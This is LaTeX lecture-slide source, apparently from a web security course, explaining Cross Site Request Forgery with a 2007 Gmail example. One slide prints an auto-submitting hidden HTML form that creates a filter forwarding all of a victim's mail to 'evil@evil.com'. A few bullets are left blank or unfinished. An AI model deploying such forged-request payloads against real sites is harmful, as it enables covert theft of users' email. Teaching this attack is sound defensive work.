 

\begin{frame}[fragile,label=submitForm]{submitting forms}
    \begin{verbatim}
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf"
    enctype="multipart/form-data"> 
    <input type="hidden" name="cf2_emc" value="true"/> 
    <input type="hidden" name="cf2_email" value="evil@evil.com"/> 
    ...
    <input type="hidden" name="s" value="z"/> 
    <input type="hidden" name="irf" value="on"/> 
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
</form> 
<script>
document.forms[0].submit();
</script>
\end{verbatim}
    \begin{itemize}
    \item above form: 2007 GMail email filter form
        \begin{itemize}
        \item pre filled out: match all messages; forward to \texttt{evil@evil.com}
        \end{itemize}
    \item form will be submitted with 
    \end{itemize}
\end{frame}

\begin{frame}{Cross Site Request Forgery (CSRF)}
    \begin{itemize}
        \item take advantage of ``'' of user
            \begin{itemize}
                \item e.g. user is allowed request to make an email filter
            \end{itemize}
        \item any webpage can make requests to other websites
            \begin{itemize}
                \item looks the same as requests made legitmately?
                \item {}
            \end{itemize}
        \item problem: cookie in request $\not=$ user authorized request
        \item problem: want to treat user as logged in when linked from another site
            \begin{itemize}
            \item can't just have browser omit cookies
            \end{itemize}
    \end{itemize}
\end{frame}

